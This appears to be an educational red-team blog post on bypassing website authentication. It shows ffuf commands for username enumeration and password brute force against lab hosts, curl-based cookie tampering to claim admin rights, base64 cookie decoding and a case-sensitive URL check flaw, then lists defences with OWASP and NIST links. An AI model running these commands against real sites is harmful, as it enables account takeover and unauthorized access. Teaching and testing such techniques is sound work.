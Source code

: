 ```yaml
---
title: Bypassing Website Authentication
date: 2025-01-05 20:00:00 +0100
categories: [Red Team, Web Application Security]
tags: [authentication, brute force, username enumeration, logic flaws, cookie tampering, encoding, hashing]
authors: jrg1a
image:
  path: /assets/images/RedTeam/authb.png
---
```


# Bypassing Website Authentication

> Authentication is a critical part of web application security, but poorly implemented authentication mechanisms can often be bypassed, defeated, or broken. This guide explores common methods used by attackers to exploit authentication vulnerabilities, and demonstrates tools and techniques to identify and exploit these flaws.

---

## Username Enumeration

A common step when identifying authentication vulnerabilities is creating a list of valid usernames. Website error messages can be a valuable resource for this, as they may inadvertently disclose whether a username exists in the system.

### Example
If you try entering the username **admin** in a signup form, and the error message reads:
```plaintext
An account with this username already exists.
```
This error message confirms the existence of the username admin. Attackers can automate this process using tools like ffuf to identify other valid usernames.

### Automating Username Enumeration with ffuf
The following ffuf command uses a wordlist of common usernames to check if they exist on the target system:
```bash
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://target-machine.com/customers/signup -mr "username already exists"
```
Explanation of Flags:

    -w: Specifies the wordlist to use for fuzzing.
    -X: Specifies the HTTP request method (e.g., POST).
    -d: Defines the data sent in the request, where FUZZ represents the fuzzing parameter.
    -H: Adds headers (e.g., "Content-Type").
    -u: Sets the target URL.
    -mr: Matches specific response text to validate results.

The ffuf tool comes pre-installed on AttackBox or can be downloaded from GitHub.

## Brute Force
Once a list of valid usernames is identified, it can be used to perform a brute force attack on the login page. This attack automates the process of testing common password combinations against each username.

**Example**
```bash
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.116.166/customers/login -fc 200
```
Command Details:

    W1 represents the list of usernames.
    W2 represents the list of passwords.
    -fc: Filters out responses with a specific HTTP status code (e.g., 200).

## Cookie Tampering
Cookies are often used for access control and session management. Examining and modifying cookie values can lead to unauthorized access or privilege escalation.

**Example**
Let's say we have these cookies:
```plaintext
Set-Cookie: logged_in=true; Max-Age=3600; Path=/
Set-Cookie: admin=false; Max-Age=3600; Path=/
```
We can modify the cookies to:
```plaintext
curl -H "Cookie: logged_in=true; admin=true" http://10.10.116.166/cookie-test
```
and try to escalate our privileges.

**Example**
Cookies can also be encoded in Base64. Here is an example of how that could look like: 
```plaintext
Set-Cookie: session=eyJpZCI6MSwiYWRtaW4iOmZhbHNlfQ==; Max-Age=3600; Path=/
```
If we decode this string, we get:
```plaintext
{"id":1,"admin":false}
```


## Logic Flaws

Logic flaws occur when the intended logical flow of an application can be bypassed, circumvented, or manipulated by an attacker. These flaws are common in poorly implemented authentication processes.

**Example: Case-Sensitivity in URL Checks

```php
if( url.substr(0,6) === '/admin') {
    // Code to check if user is admin
} else {
    // Show page to user
}
```

The above code checks if the URL starts with /admin, but it fails to account for case variations. A user accessing /adMin would bypass the authentication check.

## Testing for Authentication Bypass
If you want to test for authentication bypass, you can use tools such as:
- **Burp Suite**: Intruder module for brute force attacks and parameter tampering.
- **Hydra**: Automated brute force on various protocols.
- **ffuf**: Fuzz endpoint for valid usernames and passwords.
- **Mitmproxy**: Intercept and modify HTTP/HTTPS Traffic.
- **Curl**: Manually craft and test HTTP requests!

## Avoiding Authentication Bypass
Preventing authentication bypass vulnerabilities involves following core security principles and leveraging available resources for best practices:

1. **Secure Password Policies**  
   Use strong, unique passwords enforced by policies that require complexity and periodic updates.  
   👉 [NIST Password Guidelines](https://pages.nist.gov/800-63-3/)

2. **Multi-Factor Authentication (MFA)**  
   Add an extra layer of security by requiring multiple forms of verification.  
   👉 [Microsoft MFA Best Practices](https://learn.microsoft.com/en-us/azure/active-directory/authentication/concept-mfa-howitworks)

3. **Proper Session Management**  
   Secure session cookies using attributes like `HttpOnly`, `Secure`, and `SameSite`.  
   👉 [OWASP Session Management Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html)

4. **Rate Limiting and Account Lockout**  
   Implement throttling and temporary account locks after repeated failed login attempts.  
   👉 [OWASP Rate Limiting Guidelines](https://owasp.org/www-community/controls/Blocking_Brute_Force_Attacks)

5. **Secure Authentication Protocols**  
   Use trusted standards like OAuth 2.0 or OpenID Connect instead of custom solutions.  
   👉 [OAuth 2.0 Overview](https://oauth.net/2/)

6. **Regular Security Audits**  
   Perform code reviews, penetration testing, and automated scans to identify vulnerabilities.  
   👉 [OWASP Top 10](https://owasp.org/www-project-top-ten/)

7. **User Education**  
   Teach users how to spot phishing attempts and use password managers for better security.  
   👉 [StaySafeOnline by NCSA](https://staysafeonline.org/)

By following these practices and guidelines, you can reduce the risk of authentication bypass vulnerabilities and enhance the security of your web application.
